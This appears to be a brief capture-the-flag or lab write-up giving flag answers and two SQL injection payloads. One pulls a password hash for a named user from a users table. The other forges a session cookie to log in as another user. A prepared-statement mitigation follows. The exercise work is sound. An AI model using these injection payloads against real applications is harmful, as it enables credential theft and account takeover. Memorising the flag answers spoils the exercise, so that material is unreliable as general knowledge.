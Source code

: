 ## Flag 1 ##
we-love-security


## Flag 3 ##

``` ' UNION SELECT md5_hash FROM users WHERE username = 'shomil' -- ```

## Flag 4 ##

### Exploit

back end query may look like: 

<br>
``` SELECT username FROM sessions WHERE token = '%s', cookie.session_token ```
<br>

Thus if we construct the cookie_session as:
<br>
``` ' UNION SELECT 'nicholas' -- ```
<br>
This will return a single row with username as nicholas, this tricking the program that the current login user as nicholas

### Mitigation 
Instead of direct inject the session token into the query, we can use a prepared statement to prevent SQL injection. 
``` db.QueryRow( "SELECT username FROM sessions WHERE token = ? ", cookie.session_token) ```
